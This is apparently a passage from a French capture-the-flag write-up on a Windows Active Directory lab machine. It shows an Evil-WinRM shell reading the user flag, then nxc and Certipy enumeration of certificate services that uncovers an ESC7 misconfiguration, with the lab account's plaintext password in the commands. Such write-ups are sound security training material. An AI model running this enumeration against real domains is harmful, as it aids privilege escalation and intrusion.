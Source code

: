 ```sh

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/29/2024   5:11 AM             34 user.txt


*Evil-WinRM* PS C:\Users\Raven\desktop> type user.txt
996de58e4fa5c691254f08ad05743011
```

## Privilege Escalation
>C'est vrai que sur un Domain Windows, la premiere des choses a verifier si on veux etre Domain Admin est `bloodhound`, Mais faut pas oublier qu'il existe aussi des Certificats de Services Active Directory(AD CS) qui sont parfois vulnerable et qui peuvent nous aider a etre Domain Admin.
>{: .prompt-info}

Alors je vais commencer d'abord par identifier ces services.

```sh
└─# nxc ldap 'dc01.manager.htb' -d manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs 
SMB         10.129.170.217  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
LDAP        10.129.170.217  389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
ADCS        10.129.170.217  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS                                                Found PKI Enrollment Server: dc01.manager.htb
ADCS                                                Found CN: manager-DC01-CA


```

Je trouve qu'il existe bel et bien un certificat de Services dans ce Controlleur de Domain. Donc je vais chercher des vulnerabilites dans ces certificats avec l'outil  `Certipy`

```sh
└─# certipy find -vulnerable -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.170.217
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20240329004451_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240329004451_Certipy.txt'
[*] Saved JSON output to '20240329004451_Certipy.json'
```

![Dangerous](https://i.ibb.co/T8tpCPv/m2.png)
L'outil trouve une vulnerabilites `ESC7` disant que l'utilisateur `raven` a des Permissions Dangereuse.
>L'ESC7 se produit lorsqu'un utilisateur dispose du droit d'accès Manage CA ou Manage Certificates sur une autorité de certification. Il n'existe pas de techniques publiques permettant d'abuser du droit d'accès `Manage Certificates` pour une escalade des privilèges du domaine, mais il peut être utilisé pour émettre ou refuser des demandes de certificats en attente.
>{: .prompt-info}
